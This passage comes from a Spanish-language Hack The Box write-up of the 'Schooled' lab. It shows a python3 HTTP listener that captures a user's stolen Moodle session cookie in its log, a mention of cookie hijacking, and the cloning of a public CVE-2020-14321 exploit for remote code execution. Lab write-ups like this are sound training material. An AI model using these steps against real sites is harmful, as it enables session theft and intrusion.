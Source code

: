 Vemos que se añadió el **MoodleNet profile** en nuestro usuario

<p align="center">
<img src="/assets/images/htb-writeup-schooled/img24.png">
</p>

Iniciamos un servicio **http** con **python3** por el **puerto 80**

```bash
~$> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y despues de esperar un rato, vemos que recibimos una petición **GET** con la cookie de sessión del usuario **Manuel Phillips**

```bash
10.10.10.234 - - [15/Sep/2021 21:42:02] code 404, message File not found
10.10.10.234 - - [15/Sep/2021 21:42:02] "GET /imagen.jpg?cookie=MoodleSession=e59bjq67scrid3id39ti344dmn HTTP/1.1" 404
```
Ahora podríamos conectarnos como **Manuel Phillips** haciendo un **cookie hijacking**, pero vamos directo al grano:

 - Clonamos el siguiente exploit del repositorio de githubd de [Lanzt](https://github.com/lanzt), con esto conseguiremos RCE

```bash
~$> git clone https://github.com/lanzt/CVE-2020-14321
```
```bash
Cloning into 'CVE-2020-14321'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 18 (delta 3), reused 8 (delta 2), pack-reused 0
Receiving objects: 100% (18/18), 15.30 KiB | 979.00 KiB/s, done.
Resolving deltas: 100% (3/3), done.
```
 - Nos metemos al directorio donde se clonó, le damos premisos de ejecución
